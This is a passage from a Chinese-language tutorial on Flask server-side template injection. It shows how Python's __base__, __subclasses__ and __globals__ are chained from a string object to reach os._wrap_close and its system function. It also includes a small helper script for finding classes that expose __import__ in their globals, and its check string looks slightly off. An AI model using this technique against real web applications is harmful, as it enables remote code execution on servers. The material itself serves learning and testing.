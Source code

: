 `__base__`:返回该类的父类

```python
''.__class__.__base__
# <class 'object'>
# 及 object 是 str 的基类(父类)
```

`__subclasses__`():返回当前类的所有子类,返回结果是个列表

```python
''.__class__.__base__.__subclasses__()
#[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, ...

```

很明显,上面这几个内置属性以及魔法方法能够帮助我们得到一些类.那我们得到这些类后干什么呢?

由于无法直接使用`import`导入模块,那我们就间接导入.通过上诉的一些内置属性和方法可以找到很多基类和子类,而有些基类和子类是存在一些引用模块的,只要我们初始化这个类,再利用`__globals__`调用可利用的函数,就能够达成我们的目的.

比如:我们想要执行系统函数,首先我们得知道 python 中那个函数能够执行系统函数.当然`system`能够达做到,所以我们得寻找哪些类能够调用`system`.本次实例中使用了 118 索引,索引的具体内容是`<class 'os._wrap_close'>`

![image-20210924165507076](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924165507076.png)

选择初始化这个类是因为这个类属于`os 模块`,我们能够调用其中的`system`方法![image-20210924170058683](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924170058683.png)

![image-20210924170154061](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924170154061.png)

![image-20210924170402024](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924170402024.png)

除此之外,FLASK SSTI 常用来构建 payload 还有:

> 由于目前使用 python3 版本较多,以下 payload 均使用 python3 实现

#### \_\_builtins\_\_

python 在启动时就加载`__builtins__`,里面包含了一些常用方法比如:`abs()`,`max()`,`eval()`等等.详细信息大家可以去[官网](https://docs.python.org/3/library/builtins.html)了解.

那怎样去查找哪些类中拥有`__builtins__`呢:
这个贴出个脚本`find_exp_class.py`,方便用来查找

```python
exp_flask = '__builtins__'
number = 0
for i in "".__class__.__base__.__subclasses__():
	try:
		if "__import__()" in i.__init__.__globals__.keys():
			print(number,"-->>",i)
	except :
		pass
	finally:
		number += 1
```

